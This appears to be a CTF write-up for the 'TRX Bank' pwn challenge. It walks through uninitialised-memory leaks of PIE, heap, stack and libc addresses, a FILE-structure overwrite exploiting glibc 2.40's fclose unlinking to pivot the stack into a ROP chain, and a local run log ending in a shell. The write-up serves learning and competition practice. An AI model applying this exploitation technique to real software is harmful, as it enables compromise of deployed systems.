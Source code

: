 # TRX Bank (1 solve)

> To all our Valued Customers, at TRX Bank we aim to provide only
> the top-notch banking and customer experience; all reports about
> so-called "data leaks" are baseless slander from our competitors.
> nc bank.ctf.theromanxpl0.it 7010

---

I didn't solve this challenge on time (I was busy with other things).
However, this challenge is really interesting. "leave", "Marco"
and other solvers have given good hints after the CTF ended.

## Vulnerabilities

What we have:
* a un-init leak in `transfer()` (send `-` in transaction).
  If before calling `transfer`, we call:
  + `deposit()`:
    => leak pie (deposit + 266)
  + `close_account()`:
    => leak heap via index 29 of `tmp` buf.
  + `open_account()`:
    => leak stack address.
  + invalid option so `puts("invalid")` is called:
    => leak libc address.

What we can do with that:
* use `secret_backdor()` (check PIE), to write in range `fp_rand + 0x60:0xd8`.
  but since codecvt is memsetted to 0, we cannot use FSOP.
  + could set `fp_rand->_fileno = 0` to read from stdin instead of urandom.
  + point `fp->_lock` (offset 0x28) to a controlled mem, `(u64)fp->_lock = 0`
    whenever fd is read.

NEWS in glibc 2.40: `FILE._pad1` renamed to `_prevchain` ([Code][1]).
So `fclose` calls this:
```c
void
_IO_un_link (struct _IO_FILE_plus *fp)
{
  // redacted ...
      if (_IO_list_all == NULL)
  ;
      else if (_IO_vtable_offset ((FILE *) fp) == 0)
  {
    FILE **pr = fp->file._prevchain;
    FILE *nx = fp->file._chain;
    *pr = nx;
    if (nx != NULL)
      nx->_prevchain = pr;
```

So basically it is:
```
*(u64*)_prevchain = _chain
*(u64*)((u64)_chain + 0xb8) = _prevchain
```

It we set `fclose` saved-rbp to `_prevchain`, `_chain ` to rop address on heap,
we'll pivot the stack via `pop rbp; ret` (in `fclose()`) and `leave; ret`
(in `leave()`) gadgets.

[1]: https://elixir.bootlin.com/glibc/glibc-2.40/source/libio/genops.c#L82

## Caveats

* The `fd_rand` already pre-reads / buffers 0x1000 bytes from `/dev/urandom`.
  So you have to drain that buffer (by calling open and free acounts repeatedly)
  to make it read from stdin by overriding `fp_rand->_fileno = 0` in
  `secret_backdor()`.

* My solve script runs painfully slow on the remote (in fact it's just timeout).
  Kinda hard to optimize it with all the bruteforce for the leaks.

## Solve script

[run.py](./run.py)

Demon on local machine:
```bash
> py run.py
[+] Starting local process './chal_patched': pid 1095510
[*] -- step 1: leaking
[+] leak pie: Done
[*] LEAK: pie_leak = 0x55984e7ae545
[+] leak heap: Done
[*] LEAK: heap_leak = 0x559869949a00
[*] CALC: fp_rand_lock_addr = 0x559869948390
[+] leak stack: Done
[*] LEAK: stack_leak = 0x7fff0309cb88
[*] CALC: fclose_rbp_ptr = 0x7fff0309ca20
[+] leak libc: Done
[*] LEAK: libc_leak = 0x7f8fb928d05a
[*] -- step 2: write ropchains from stdin
[+] set fp_rand->_fileno=0 to prevent reading more from urandom: Done
[*] fp_rand buffers 0x1000 bytes from urandom
[*] we read 0x3bd bytes, remaining 0xc43 bytes
[+] draining fp_rand->buffer: Done
[*]     remaining 0x7 bytes
[*] Loaded 116 cached gadgets for './glibc/libc.so.6'
[*] remember to restore fd to be used in fclose(fp_rand)
gdb 1095510
[+] duration: 2.1514997482299805
[*] Switching to interactive mode
We're sorry to see you go! Your refund will arrive approximately in 83 days!
$ pwd
/home/hacker/ctfs/2025/trx/pwn/bank/dist
```
